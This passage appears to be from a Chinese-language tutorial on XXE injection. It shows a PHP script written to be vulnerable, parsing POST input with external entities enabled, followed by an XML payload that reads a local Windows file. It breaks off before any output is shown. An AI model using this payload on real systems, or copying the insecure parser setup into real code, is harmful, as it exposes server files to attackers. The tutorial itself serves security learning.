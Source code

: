 ```php

<?php

  

    libxml_disable_entity_loader (false);//用来禁用或启用 libxml 库中的实体加载器。参数 false 表示启用实体加载器。

    $xmlfile = file_get_contents('php://input');//从 PHP 的输入流中读取数据，并将其存储在 $xmlfile 变量中。

    $dom = new DOMDocument();//创建了一个新的 DOMDocument 对象，该对象表示一个 XML 或 HTML 文档。

    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); //使用 $xmlfile 中的 XML 数据加载 DOMDocument 对象，后面两个是解析选项

    $creds = simplexml_import_dom($dom);//将 DOMDocument 对象转换为 SimpleXMLElement 对象，以便更容易地处理 XML 数据

    echo $creds;//将 SimpleXMLElement 对象转换为字符串，并输出

  

?>

```

  

## 直接利用

  
  

以Windows环境为例：

  

post传入

  

```xml

<?xml version="1.0"?>

<!DOCTYPE a [

  <!ENTITY b SYSTEM "file:///c:/windows/win.ini">

]>

<c>&b;</c>

```

  

喜提：
